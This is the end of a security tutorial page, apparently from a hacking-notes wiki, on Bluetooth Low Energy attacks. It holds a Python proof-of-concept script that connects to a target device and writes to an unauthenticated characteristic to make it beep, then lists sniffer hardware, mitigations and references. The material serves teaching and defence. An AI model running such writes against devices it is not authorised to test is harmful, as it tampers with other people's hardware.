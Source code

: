 ```
peer = ble_device.connect(target_address).wait()
if not peer:
    print("[!] Connection failed.")
    ble_device.close()
    raise SystemExit(1)

print("Connected. Discovering services...")
peer.discover_services().wait(5, exception_on_timeout=False)

# Example: write 0x01/0x00 to a known handle
for service in peer.database.services:
    for ch in service.characteristics:
        if ch.handle == 0x000b:  # Replace with your handle
            print("[!] Beeping.")
            ch.write(b"\x01")
            time.sleep(2)
            print("[+] And relax.")
            ch.write(b"\x00")

print("[-] Disconnecting...")
peer.disconnect()
peer.wait_for_disconnect()
ble_device.close()
```
```
### Operational notes and mitigations

- Prefer Sonoff+Sniffle on Linux for robust channel hopping and connection following. Keep a spare Nordic sniffer as a backup.
- Without pairing/bonding, any nearby attacker can observe writes and replay/craft their own to unauthenticated writable characteristics.
- Mitigations: require pairing/bonding and enforce encryption; set characteristic permissions to require authenticated writes; minimize unauthenticated writable characteristics; validate GATT ACLs with Sniffle/nRF Connect.

## References

- [[https://www.pentestpartners.com/security-blog/start-hacking-bluetooth-low-energy-today-part-2/|Start hacking Bluetooth Low Energy today! (part 2) – Pentest Partners]]
- [[https://github.com/nccgroup/Sniffle|Sniffle – A sniffer for Bluetooth 5 and 4.x LE]]
- [[https://github.com/nccgroup/Sniffle?tab=readme-ov-file#firmware-installation-sonoff-usb-dongle|Firmware installation for Sonoff USB Dongle (Sniffle README)]]
- [[https://sonoff.tech/en-uk/products/sonoff-zigbee-3-0-usb-dongle-plus-zbdongle-p|Sonoff Zigbee 3.0 USB Dongle Plus (ZBDongle-P)]]
- [[https://www.nordicsemi.com/Products/Development-tools/nRF-Sniffer-for-Bluetooth-LE|Nordic nRF Sniffer for Bluetooth LE]]
- [[https://www.nordicsemi.com/Products/Development-tools/nRF-Connect-for-desktop|nRF Connect for Desktop]]
- [[https://blatann.readthedocs.io/en/latest/|blatann – Python BLE library for Nordic devices]]

